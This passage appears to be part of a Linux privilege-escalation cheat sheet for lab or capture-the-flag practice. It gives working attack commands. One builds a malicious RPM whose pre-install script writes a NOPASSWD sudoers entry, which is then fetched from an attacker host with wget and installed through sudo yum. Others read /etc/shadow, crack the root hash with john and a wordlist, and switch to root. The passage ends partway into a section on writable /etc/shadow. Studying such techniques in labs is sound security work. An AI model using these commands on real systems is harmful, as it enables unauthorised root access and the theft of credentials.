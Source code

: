 ### yum

on Attcker (kali)

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh 
apt-get install ruby ruby-dev rubygems build-essential 
gem install fpm 
fpm -n root -s dir -t rpm -a all --before-install sudo.sh .

```

on Target

```
wget http://$kaliIP/root-1.0-1.noarch.rpm
sudo yum localinstall -y root-1.0-1.noarch.rpm
```

## Weak File Permissions
```
ls -l /etc/shadow
ls -l /etc/passwd

cat /etc/passwd | grep bash #List all usres that has bash access
cat /etc/group #See which user has higher privilege

```
### Readable /etc/shadow
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Switch to the root user, using the cracked password:

`su root`

### Writable /etc/shadow
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:
